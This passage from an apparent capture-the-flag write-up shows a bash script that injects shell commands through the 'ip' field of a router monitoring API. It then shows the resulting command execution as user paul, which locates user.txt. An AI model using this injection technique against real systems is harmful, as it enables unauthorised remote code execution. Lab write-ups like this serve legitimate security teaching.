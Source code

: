 
### Enumerate Host

#### Generate Bash Script

Proceeding without the unintended reverse shell, I’ll take this POST request
and generate a `curl` command I can use to make enumeration easier. I like to
then put it into a short `bash` script so I can just up arrow, and change the
command, and re-run. The script looks like:

    
    
    #!/bin/bash
    
    curl -s -x http://127.0.0.1:8080 \
            -H 'user-agent: RouterSpaceAgent' \
            -H 'Content-Type: application/json' \
            -d '{"ip":"$('"$1"')"}' \
            http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess \
            | jq -r .
    

There’s two tricks in there. First, in order to get `$1` to expand to the
passed in argument, I’ll need to close the single quote string, put it in
double quotes, and then start the single quote string again (`bash` is a
headache like that).

I’m also using `jq` with `-r` to print the raw string, which removes the `""`
around the result and the trailing `\n`. `jq` is made for JSON, but
technically a string is valid JSON, so it works. It doesn’t help fix the fact
that the server seems to strip out new lines in the middle of results, so
that’s still a mess.

The script runs as hoped:

    
    
    oxdf@hacky$ ./rce.sh 'id'
    uid=1001(paul) gid=1001(paul) groups=1001(paul)
    

I’ll find `user.txt` in paul’s home dir:

    
    
    oxdf@hacky$ ./rce.sh 'ls /home/paul'
    snap user.txt
    

The multiline result is a mess:

    
    
    oxdf@hacky$ ./rce.sh 'ls -l /home/paul'
    total 8 drwxr-xr-x 3 paul paul 4096 Feb 17 18:30 snap -r--r----- 1 root paul 33 Jun 19 21:13 user.txt
    

Anyway, I can read the flag:

    
    